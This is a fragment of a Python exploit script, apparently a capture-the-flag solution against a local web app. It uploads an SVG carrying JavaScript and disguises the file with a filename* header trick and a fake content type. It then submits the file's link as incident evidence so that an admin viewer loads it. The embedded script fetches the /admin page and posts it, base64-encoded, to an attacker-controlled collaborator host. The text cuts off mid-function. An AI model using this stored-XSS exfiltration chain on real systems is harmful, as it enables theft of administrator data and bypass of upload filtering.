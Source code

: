 ```python
    url = base_url.strip('/') + "/upload"

    boundary = "----WebKitFormBoundaryIEP63U3yHqQKkaFV"
    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}"
    }

    payload = f"""<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
  <rect width="124" height="124" rx="24" fill="#000000"/>
  <script>
    fetch('/admin')
      .then(res => res.text())
      .then(html => fetch('{collaborator}/', {{
          method: 'POST',
          body: "admin_panel=" + btoa(html)
      }}));
  </script>
</svg>"""

    data = (
        f"--{boundary}\r\n"
        f"Content-Disposition: form-data; name=\"file\"; filename=\"remo.jpg\";filename*=utf-8''secret.svg\r\n"
        f"Content-Type: blackouts/jpeg\r\n\r\n"
        f"{payload}\r\n"
        f"--{boundary}--\r\n"
    )

    res = session.post(url, data=data.encode(), headers=headers, timeout=10)
    if "Upload complete" in res.text:
        print("[+] File Uploaded Successfully")
        incident_link = "http://127.0.0.1:1337/files/secret.svg"
        print(f"[+] The incident link is: {incident_link}")
        send_incident(session, base_url, incident_link, collaborator)
    else:
        print("[-] Upload may have failed:", res.status_code, res.text[:200])

def send_incident(session: requests.Session, base_url: str,incident_link: str,collaborator: str):
    url = base_url + "/graphql"
    data = {
        "query": f"""
        mutation {{
          submitIncidentReport(
            title: "SecretRemo",
            details: "SecretRemo Was Here",
            evidenceUrl: "{incident_link}"
          ) {{
            id
            title
            details
            evidenceUrl
            submittedAt
          }}
        }}
        """
    }
    try:
        res = session.post(url, json=data, timeout=10)
        json_response = res.json()
        if "data" in json_response and "submitIncidentReport" in json_response["data"]:
            print("[+] Incident was submited successfully: ", json_response["data"]["submitIncidentReport"])
```